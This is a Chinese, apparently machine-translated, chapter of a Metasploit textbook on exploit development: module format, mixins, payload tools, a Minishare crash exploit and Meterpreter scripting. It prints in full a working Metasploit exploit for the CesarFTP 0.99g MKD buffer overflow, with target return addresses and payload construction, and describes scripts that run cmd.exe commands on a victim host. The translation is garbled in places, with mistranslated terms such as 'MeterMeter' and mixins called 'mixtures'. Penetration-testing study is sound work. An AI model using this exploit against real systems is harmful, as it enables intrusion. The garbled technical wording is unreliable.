






# 第 12 章利用 Metasploit 进行研究

简单地说，漏洞利用是一段代码或一组命令，它们以典型格式专门编写，利用软件/硬件中的漏洞或弱点，导致意外行为发生。这种非预期行为的形式可能是系统崩溃、拒绝服务、缓冲区溢出、蓝屏死亡或系统无响应。当我们谈论漏洞利用时，我们有一种称为零日漏洞利用的方式。零日漏洞会在发现漏洞的同一天利用该漏洞进行攻击。这意味着开发人员没有时间解决和修补漏洞。攻击者利用这些漏洞在目标软件的开发人员知道漏洞之前攻击易受攻击的系统。


图片取自[http://static.itpro.co.uk/sites/itpro/files/styles/gallery_wide/public/security_exploits.jpg](http://static.itpro.co.uk/sites/itpro/files/styles/gallery_wide/public/security_exploits.jpg)

# 利用写作技巧和技巧

在本章中，我们将重点介绍如何使用 Metasploit 进行开发。Metasploit 中已经有大量的漏洞利用，在漏洞利用开发练习期间，这些漏洞可能会被编辑并用于我们的目的。

## 要点

在编写 Metasploit 框架的漏洞利用时，需要记住几个要点：

*   将大部分工作转移到 Metasploit 框架
*   使用 Rex 协议库
*   广泛使用可用的 mixin
*   申报的坏蛋必须 100%准确
*   确保有效负载空间高度可靠
*   尽可能利用随机性
*   使用编码器将所有有效载荷随机化
*   生成填充时，使用`Rex::Text.rand_text_* (rand_text_alpha, rand_text_alphanumeric,`等）
*   所有 Metasploit 模块都具有具有硬制表符缩进的一致结构
*   无论如何，花哨的代码更难维护
*   mixin 在整个框架中提供一致的选项名称
*   概念证明应作为辅助 DoS 模块编写，而不是作为漏洞利用
*   最终开发的可靠性必须很高

## 漏洞利用的格式

Metasploit 框架中漏洞的格式类似于辅助模块的格式，但有更多字段。格式化漏洞利用时，需要记住以下几点：

*   有效载荷信息块是绝对必要的
*   应该有一个可用目标的列表
*   应使用`exploit()`和`check()`功能，而不是`run()`功能

现在，我们演示一个简单的 Metasploit 漏洞，以展示它是如何编写的：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
    Rank = ExcellentRanking
      include Msf::Exploit::Remote::Tcp
    include Msf::Exploit::EXE
```

我们从包含 MSF 核心包开始开发模块。然后是类声明和函数定义。在我们的示例中，我们包括一个普通 TCP 连接，因此我们使用`Msf::Exploit::Remote::Tcp`。Metasploit 具有 HTTP、FTP 等处理程序，这有助于更快地构建漏洞利用，因为我们不需要自己编写整个漏洞利用。我们需要定义长度和坏字符，然后定义目标。还需要定义特定于目标的设置，如返回地址和偏移量。然后我们需要连接到远程主机和端口，构建缓冲区并将其写入连接。一旦攻击击中连接，我们处理攻击，然后断开连接。

典型的 Metasploit 利用模块由以下组件组成：

*   标题和一些依赖项
*   利用模块的核心元素包括：
    *   `require 'msf/core'`
    *   `class definition`
    *   `includes`
    *   `"def" definitions`
    *   `initialize`
    *   `check (optional)`
    *   `exploit`

以下是我们的 Metasploit 漏洞的屏幕截图：


## 开发混合物

mixin 最为人所知的是它们在向模块添加功能方面的有用性。基于单一继承语言 Ruby，mixin 支持多重继承。对于良好的开发，了解并有效地使用 mixin 是非常重要的，因为 Metasploit 在很大程度上使用了 mixin。mixin 不是特定于模块类别的，尽管它们出现在定义它们最接近的类别下。因此，我们可以在辅助模块中利用模块混合，反之亦然。

## 辅助：：报告混入

在 Metasploit 框架中，可以利用`Auxiliary::Report`mixin 将主机、服务和漏洞信息保存到数据库中。这有两种内置方法，即`report_host`和`report_service`，用于指示主机和服务的状态（状态指示主机/服务是否工作）。要使用这个模块，我们需要使用`include Auxiliary::Report`将这个 mixin 包含到我们的类中。

因此，我们可以利用这个 mixin 将任何信息保存到数据库中。

## 广泛应用的开发性混合物

广泛使用的开发混合器解释如下：

*   `Exploit::Remote::Tcp`：此向模块提供 TCP 功能和方法。它有助于使用`connect()`和`disconnect()`建立 TCP 连接。它创建`self.sock`作为全局套接字，并提供 SSL、代理、CPORT 和 CHOST。它使用 RHOST、RPORT 和 ConnectTimeout 等参数。其代码文件位于`lib/msf/core/exploit/tcp.rb`。
*   `Exploit::Remote::DCERPC`：此 mixin 提供了与远程机器上的 DCERPC 服务交互的实用方法。这些方法在开发环境中通常很有用。此 mixin 继承自 TCP 漏洞 mixin。采用`dcerpc_handle()`、`dcerpc_bind()`、`dcerpc_call()`等方式。它还支持多上下文绑定请求和分段 DCERPC 调用的 IPS 规避方法。其代码文件位于`lib/msf/core/exploit/dcerpc.rb`。
*   `Exploit::Remote::SMB`：此 mixin 提供了与远程机器上的 SMB/CIFS 服务交互的实用方法。这些方法在开发环境中通常很有用。此 mixin 扩展了 TCP 漏洞 mixin。使用此类一次只能访问一个 SMB 服务。采用`smb_login()`、`smb_create()`、`smb_peer_os()`等方式。它还支持 SMBUser、SMBPass 和 SMBMDOMAIN 等选项。它公开了诸如`SMB::pipe_evasion`、`SMB::pad_data_level`和`SMB::file_data_level`等 IP 规避方法。其代码文件位于`lib/msf/core/exploit/smb.rb`。
*   `Exploit::Remote::BruteTargets`：该 mixin 对目标进行蛮力攻击。基本上，它重载了`exploit()`方法，并为每个目标调用`exploit_target(target)`。其代码文件位于`lib/msf/core/exploit/brutetargets.rb`。
*   `Exploit::Remote::Brute`：此 mixin 重载漏洞利用方法，并为每个步骤调用`brute_exploit()`。最适合暴力攻击和地址范围。地址范围是远程暴力攻击混入，最适合暴力攻击。这提供了一个支持目标的暴力强制包装器。它使用提供的地址调用`brute_exploit`方法。如果这不是蛮力目标，则调用`single_exploit`方法。`Exploit::Remote::Brute`的代码文件位于`lib/msf/core/exploit/brute.rb`。

## 编辑漏洞模块

了解漏洞模块是如何编写的一个好方法是首先编辑一个模块。我们编辑位于`opt/metasploit/msf3/modules/exploits/windows/ftp/ceaserftp_mkd.rb`的模块。

### 注

作者的笔记显示在#符号后。

```
##
# $Id: cesarftp_mkd.rb 14774 2012-02-21 01:42:17Z rapid7 $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#   http://metasploit.com/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = AverageRanking

	include Msf::Exploit::Remote::Ftp

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Cesar FTP 0.99g MKD Command Buffer Overflow',
			'Description'    => %q{
				This module exploits a stack buffer overflow in the MKD verb in CesarFTP 0.99g.

				You must have valid credentials to trigger this vulnerability. Also, you
				only get one chance, so choose your target carefully.
			},
			'Author'         => 'MC',
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 14774 $',
			'References'     =>
				[
					[ 'CVE', '2006-2961'],
					[ 'OSVDB', '26364'],
					[ 'BID', '18586'],
					[ 'URL', 'http://secunia.com/advisories/20574/' ],
				],
			'Privileged'     => true,
			'DefaultOptions' =>
				{
					'EXITFUNC' => 'process',
				},
			'Payload'        =>
				{
					'Space'    => 250,
					'BadChars' => "\x00\x20\x0a\x0d",
					'StackAdjustment' => -3500,
					'Compat'        =>
						{
							'SymbolLookup' => 'ws2ord',
						}
				},
			'Platform'       => 'win',
			'Targets'        =>
				[
					[ 'Windows 2000 Pro SP4 English', { 'Ret' => 0x77e14c29 } ],
					[ 'Windows 2000 Pro SP4 French',  { 'Ret' => 0x775F29D0 } ],
					[ 'Windows XP SP2/SP3 English',       { 'Ret' => 0x774699bf } ], # jmp esp, user32.dll
					#[ 'Windows XP SP2 English',       { 'Ret' => 0x76b43ae0 } ], # jmp esp, winmm.dll
					#[ 'Windows XP SP3 English',       { 'Ret' => 0x76b43adc } ], # jmp esp, winmm.dll
					[ 'Windows 2003 SP1 English',     { 'Ret' => 0x76AA679b } ],
				],
			'DisclosureDate' => 'Jun 12 2006',
			'DefaultTarget'  => 0))
	end

	def check
		connect
		disconnect

		if (banner =~ /CesarFTP 0\.99g/)
			return Exploit::CheckCode::Vulnerable
		end
			return Exploit::CheckCode::Safe
	end

	def exploit
		connect_login

		sploit =  "\n" * 671 + rand_text_english(3, payload_badchars)
		sploit << [target.ret].pack('V') + make_nops(40) + payload.encoded

		print_status("Trying target #{target.name}...")

		send_cmd( ['MKD', sploit] , false)

		handler
		disconnect
	end

end
```

## 使用有效载荷工作

在处理有效负载时，我们需要选择一个编码器，该编码器不接触特定寄存器，必须在最大大小之下，必须避免坏字符，并且应该根据它们的排名进行选择。

接下来是 Nops 生成器，应该首先使用最随机的 Nop 进行选择。此外，根据其有效性对其进行排序，并应相应地进行选择。以下是有效载荷列表：

*   `msfvenom` – It is a combination of both `msfpayload` and `msfencode`. It is a single tool that has standardized command-line options and good speed.

    

*   `msfpayload`: It is a basic command-line instance of Metasploit that is used to generate and output all of the shell code that is available in Metasploit. It is most commonly used for the generation of the shell code for an exploit that is not currently present in the Metasploit Framework. It is even used for working with and testing different types of shell code and options while working with exploit modules.

    

*   `msfencode`: This is another great payload in Metasploit's arsenal for exploit development. Sometimes it becomes difficult to use shell code generated straight out of `msfpayload`; therefore, it has to be encoded.

    

# 写作功勋

在这一部分中，我们将为 Minishare 1.4.1 版编写一个小漏洞。首先在桌面上创建一个具有任意名称的文件，并将其另存为 Python 扩展文件。例如，我们创建了一个名为`minishare.py`的文件。接下来，只需在该文件上编写攻击代码。代码显示在以下屏幕截图中：



我们将截图中显示的代码写入`minishare.py`文件并保存。现在我们可以对我们的目标机器运行漏洞攻击，我们已经在目标机器上安装了 Minishare 软件。打开终端，从文件所在目录执行`minishare.py`文件。So 输入`./minishare.py <target IP>`；例如，这里我们使用的是`./minishare.py 192.168.0.110`。


执行漏洞攻击后，我们看到 Minishare 已经崩溃，如下图所示：



接下来，我们继续使用一个非常有用的 Metasploit 实用程序，称为`pattern_create.rb`。这位于 Metasploit 的`tools`文件夹中，如下面的屏幕截图所示。使用此脚本将生成由唯一字符串模式组成的字符串。因此，我们可以通过使用此脚本创建随机模式来替换当前的缓冲区模式。


我们输入`ruby pattern_create.rb 2000`，然后按*进入*。这为我们创建了一个随机字符串模式，可以用来导致缓冲区溢出，并找出溢出的确切内存位置。



然后，我们用刚刚生成的随机模式替换缓冲区中的原始字符串模式。因此我们又有了一个随机字符串的缓冲区，可用于在 Minishare 软件中造成缓冲区溢出。


创建缓冲区后，我们再次运行脚本，如下面的屏幕截图所示，并等待结果。



我们在受害者的机器上看到的是，Minishare 由于在其上运行的缓冲区溢出漏洞再次崩溃，如以下屏幕截图所示：


# 使用 Metasploit 编写脚本

现在我们继续讨论使用 Ruby 定制 Metasploit 脚本的一些概念。让我们从一个非常简单的程序开始，该程序将在屏幕上打印**Hello World**。下面的屏幕截图展示了我们如何编写第一个简单的程序。我们甚至可以简单地将同一个程序写在一个文本板上，并将其保存在目标文件夹中。


由于我们已经有了一个 MeterMeter 会话，我们只需输入`run helloworld`即可运行脚本。我们可以看到我们的程序已经成功执行并在屏幕上打印了`Hello World`。因此，我们已经成功地构建了自己的自定义脚本。


早些时候，我们使用了一个`print_status`命令；类似地，我们可以使用`print_error`显示标准错误，`print_line`显示一行文本。


我们可以看到，这已显示在屏幕上，如以下屏幕截图所示：


现在，让我们通过介绍函数的使用、错误输入的错误处理，以及通过脚本提取一些重要信息，来进一步了解程序的结构。在这个脚本中，我们将使用一些 API 调用来查找有关受害者系统的基本信息，例如操作系统、计算机名和脚本的特权级别。


现在让我们运行脚本。通过使用 API 调用，它成功地为我们提供了所需的所有信息。因此，通过提取受害者计算机的基本信息，我们在脚本编写技能方面领先了一步。所以我们在这里所做的是，我们声明了一个函数，就像我们在任何其他编程语言中所做的那样，来维护程序的结构，并将一个名为`session`的变量传递给它。此变量用于调用各种方法来打印受害者的基本计算机信息。在此之后，我们有一些状态消息，后面是 API 调用的结果。我们在结尾使用了`getinfo(client)`来调用我们的函数。


接下来，我们继续编写更高级的 MeterMeter 脚本，并从目标受害者那里收集更多信息。这次我们有两个参数，`session`和`cmdlist`。首先我们打印一条状态消息，然后设置响应超时，这样会话就不会挂起。在此之后，我们运行一个循环，该循环每次接收一个数组中的项，并通过`cmd.exe /c`在系统上执行它。接下来，它打印从命令执行返回的状态。然后，我们设置了从受害者系统中提取信息的命令，如`set`、`ipconfig`和`arp`。



最后，我们通过键入`run helloworld`在 MeterMeter 中运行脚本；我们的代码在目标系统上成功执行，提供了重要信息，如以下屏幕截图所示：


# 总结

在本章中，我们介绍了 Metasploit 开发研究的基础知识。剥削本身是一个非常广泛的话题，是一个单独的研究。我们在 Metasploit 中介绍了各种有效负载，并了解了如何设计漏洞利用。在 MeterMeter 会话中，我们还介绍了一系列用于信息检索的 Metasploit 脚本基础知识。在下一章中，我们将介绍两个 Metasploit 附加工具，即社会工程工具包和 Armitage。

# 参考文献

以下是一些有用的参考资料，进一步阐明了本章所涵盖的一些主题：

*   [http://searchsecurity.techtarget.com/definition/zero-day-exploit](http://searchsecurity.techtarget.com/definition/%E2%80%A8zero-day-exploit)
*   [http://en.wikipedia.org/wiki/Exploit_%28computer_security%29](http://en.wikipedia.org/wiki/Exploit_%28computer_security%29)
*   [https://en.wikipedia.org/wiki/Zero-day_attack](https://en.wikipedia.org/wiki/Zero-day_attack)
*   [http://www.offensive-security.com/metasploit-unleashed/Exploit_Design_Goals](http://www.offensive-security.com/metasploit-unleashed/%E2%80%A8Exploit_Design_Goals)
*   [http://www.offensive-security.com/metasploit-unleashed/Exploit_Format](http://www.offensive-security.com/metasploit-unleashed/%E2%80%A8Exploit_Format)
*   [http://www.offensive-security.com/metasploit-unleashed/Exploit_Mixins](http://www.offensive-security.com/metasploit-unleashed/%E2%80%A8Exploit_Mixins)
*   [http://en.wikibooks.org/wiki/Metasploit/UsingMixins](http://en.wikibooks.org/wiki/Metasploit/UsingMixins)
*   [https://www.corelan.be/index.php/2009/08/12/exploit-writing-tutorials-part-4-from-exploit-to-metasploit-the-basics/](https://www.corelan.be/index.php/2009/08/12/exploit-writing-tutorials-part-4-from-exploit-to-metasploit-the-basics/)
*   [http://www.offensive-security.com/metasploit-unleashed/Msfpayload](http://www.offensive-security.com/metasploit-unleashed/Msfpayload)
*   [http://www.offensive-security.com/metasploit-unleashed/Msfvenom](http://www.offensive-security.com/metasploit-unleashed/Msfvenom)
*   [https://dev.metasploit.com/api/Msf/Exploit/Remote/DCERPC.html](https://dev.metasploit.com/api/Msf/Exploit/Remote/DCERPC.html)
*   [https://dev.metasploit.com/api/Msf/Exploit/Remote/SMB.html](https://dev.metasploit.com/api/Msf/Exploit/Remote/SMB.html)
*   Metasploit 利用有效载荷：[http://www.offensive-security.com/metasploit-unleashed/Exploit_Payloads](http://www.offensive-security.com/metasploit-unleashed/Exploit_Payloads)
*   正在编写 Windows 漏洞：[http://en.wikibooks.org/wiki/Metasploit/WritingWindowsExploit](http://en.wikibooks.org/wiki/Metasploit/WritingWindowsExploit)
*   使用 Metasploit 定制脚本：[http://www.offensive-security.com/metasploit-unleashed/Custom_Scripting](http://www.offensive-security.com/metasploit-unleashed/Custom_Scripting)
*   Cesar FTP 漏洞：[http://www.exploit-db.com/exploits/16713/](http://www.exploit-db.com/exploits/16713/)
*   使用 Metasploit[进行开发研究 http://www.securitytube.net/video/2706](http://www.securitytube.net/video/2706)